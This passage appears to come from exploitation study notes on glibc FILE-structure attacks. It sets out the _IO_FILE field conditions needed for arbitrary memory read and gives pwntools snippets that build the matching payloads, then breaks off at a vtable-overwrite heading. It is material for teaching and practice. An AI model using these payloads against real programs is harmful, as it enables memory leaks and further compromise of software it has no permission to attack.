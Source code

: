 ```py
# Alternative way to automatically set the required fields and .struntil("_fileno")
payload = FileStructure().read(addr=target_address, size=nb)
```

[^no-read]: Default for `fopen(filepath, "r")` or achievable by `_flag & (~_IO_NO_READS)`

## Arbitrary Address Read

- Human language:
    - the ability to read any data from memory (leak memory)
    - read from memory then write to file (`fwrite`)
    - reading data **from** memory
- `C` language:
    - `write(fd, buf, size);`
    - `fwrite(buf, size, nmemb, fp)`

Requirements:
- `_flags & _IO_NO_WRITES (0x8) == 0`[^no-write]
- `_flags & _IO_UNBUFFERED (0x2) == 1` (not necessary, but desirable in most cases)
- `_IO_read_end == _IO_write_base`
- `_IO_write_base` is set to the starting address to read from
- `_IO_write_ptr` is set to the end address (starting address + number of bytes to be read from)
- `_IO_fileno` is set to the file descriptor where the read data is written into, usually `1` (`STDOUT_FILENO`)

#### Example

Example using [`pwntools`](https://docs.pwntools.com/en/stable/filepointer.html#module-pwnlib.filepointer)
to setup for reading `nb` number of bytes from address `target_address`

```py
from pwn import *

target_address = 0x1337
nb = 0x100
fs = FileStructure()
# flags taken from unbuffered _IO_2_1_stdout_, but most importantly 0xfbad2887 & _IO_NO_WRITES == 0
fs.flags = 0xfbad2887
fs._IO_write_base = target_address
fs._IO_write_ptr = target_address + nb
fs._fileno = 1  # STDOUT_FILENO
payload = bytes(fs)  # payload to overwrite the whole field of _IO_FILE_plus struct
payload = fs.struntil("_fileno")  # payload to overwrite until _fileno

# Alternative way to automatically set the required fields and .struntil("_fileno")
payload = FileStructure().write(addr=target_address, size=nb) # 
```

[^no-write]: Default for `fopen(filepath, "w")` or achievable by `_flag & (~_IO_NO_WRITES)` (`_IO_NO_WRITES = 0x8`)

## Overwriting `vtable` Exploit

### Abusing `fwrite` & `glibc _IO_2_1_stdout_`
